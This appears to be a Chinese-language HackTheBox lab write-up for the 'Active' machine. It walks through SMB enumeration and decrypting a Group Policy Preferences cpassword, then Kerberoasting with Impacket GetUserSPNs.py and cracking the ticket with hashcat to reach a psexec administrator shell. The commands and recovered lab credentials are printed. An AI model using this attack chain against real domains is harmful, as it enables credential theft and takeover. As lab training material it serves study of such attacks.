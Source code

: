 ```yaml
---
title: HackTheBox-active-Windows_Active
date: 2025-4-15 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```


# 信息收集

## nmap

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-15 08:46:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-15T08:47:21
|_  start_date: 2025-04-15T08:43:29
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required


```

## SMB

将smb中可读的文件都下载下来，最终`GTP.INI`,`Groups.xml`,`Registry.pol`,nmap-ports是nmap扫描时输出的扫描结果

![image-20250415172636865](./Active-Windows_Active/image-20250415172636865.png)

Groups.xml中有一些敏感信息

```
Groups.xml

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

`groups.xml`是`windows`域环境中的组策略设置用户配置文件

泄露了域用户名称，密码；GPP 使用一个 **硬编码的 AES 密钥** 对密码进行加密，这个密钥是公开的，可以解开

```
name="active.htb\SVC_TGS"

cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

gpp-decrypt工具可以解密，kali自带该工具

![image-20250415173847201](./Active-Windows_Active/image-20250415173847201.png)

```
SVC_TGS:GPPstillStandingStrong2k18
```

使用该账号密码可以访问到更多的smb共享目录

![image-20250415174808847](./Active-Windows_Active/image-20250415174808847.png)

## 横向移动

```
python3 GetUserSPNs.py  -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile SPNS

```

使用 Impacket 中的 `GetUserSPNs.py` 脚本来获取与普通用户帐户关联的服务用户名列表，并且得到ticket

ticket使用hashcat指定加密方式为13100

```
hashcat -a 0 -m 13100 SPNS /usr/share/wordlists/rockyou.txt

hashcat -a 0 -m 13100 SPNS /usr/share/wordlists/rockyou.txt --show 来查看破解之后的密码
```

![image-20250415221050958](./Active-Windows_Active/image-20250415221050958.png)

```
Administrator:Ticketmaster1968
```

有了管理员的账号密码可以访问smb，也可以使用psexec获得一个远程root shell

![image-20250415222530042](./Active-Windows_Active/image-20250415222530042.png)